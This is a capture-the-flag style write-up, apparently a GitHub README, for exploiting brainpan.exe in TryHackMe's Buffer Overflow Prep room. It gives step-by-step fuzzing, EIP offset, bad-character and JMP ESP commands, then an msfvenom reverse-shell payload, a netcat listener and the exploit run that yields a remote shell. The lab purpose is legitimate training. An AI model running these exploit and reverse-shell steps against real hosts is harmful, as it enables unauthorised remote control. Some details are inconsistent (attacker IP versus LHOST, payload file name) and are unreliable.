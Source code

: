 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

## Set up

* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
  * [mona.py](https://github.com/corelan/mona)

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```

![1](imgs/brainpan-writeup1.png?raw=true)
...
![2](imgs/brainpan-writeup2.png?raw=true)


## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```
![3](imgs/brainpan-writeup3.png?raw=true)

Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:
![4](imgs/brainpan-writeup4.png?raw=true)


Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```
![5](imgs/brainpan-writeup5.png?raw=true)


## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```
![6](imgs/brainpan-writeup6.png?raw=true)


Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```
![7](imgs/brainpan-writeup7.png?raw=true)

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 005FF80B
```
![8](imgs/brainpan-writeup8.png?raw=true)

## 5. Find JMP instruction
```
!mona jmp -n -r ESP
```

![9](imgs/brainpan-writeup9.png?raw=true)

JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10
```
![10](imgs/brainpan-writeup10.png?raw=true)


## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse2
```

Got the shell!!
![11](imgs/brainpan-writeup11.png?raw=true)


THE END!

#walkthrough #writeup #brainpan
